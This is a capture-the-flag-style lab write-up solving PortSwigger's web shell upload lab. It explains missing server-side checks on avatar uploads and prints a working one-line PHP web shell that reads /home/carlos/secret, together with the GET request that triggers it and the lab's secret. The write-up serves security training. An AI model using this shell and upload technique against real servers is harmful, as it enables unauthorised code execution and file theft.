





# Remote Code Execution via Web Shell Upload (PortSwigger)

**Category:** File Upload  
**Difficulty:** Apprentice  
**Lab:** Remote code execution via web shell upload

---

## 🧠 Objective
Exploit an insecure file upload mechanism to upload a PHP web shell and use it to read the contents of:

```
/home/carlos/secret
```

---

## 📝 Vulnerability Summary
The application allows users to upload an avatar image.  
Client-side validation restricts uploads to image files, but the server does not properly validate:

- file extension  
- MIME type  
- file content  

This allows an attacker to upload a PHP file disguised as an image and execute arbitrary code on the server.

---

## 🎯 Exploitation

### 1. Upload a normal image
I uploaded a `.jpeg` file through the avatar upload form.

### 2. Capture the GET request for the avatar
Using Burp Proxy → HTTP history, I located the request:

```
GET /files/avatars/images.jpeg
```

Sent it to Repeater.

### 3. Create a PHP web shell
I created a file named `shell.php` containing:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

### 4. Upload the PHP shell
I used the website’s upload form to upload `shell.php`.

### 5. Trigger the shell via Burp Repeater
In Repeater, I modified the GET request to:

```
GET /files/avatars/shell.php
```

The server responded with:

```
qcMpeG7rcm7vXQ1TrvfovftV8qmMRIu1
```

This is the secret required to solve the lab.

### 6. Submit the secret
I submitted the value in the lab interface and the lab was marked as solved.

---

## 📸 Screenshots











---

## ✅ Result
The uploaded PHP web shell executed successfully, retrieved the contents of `/home/carlos/secret`, and the lab was solved.
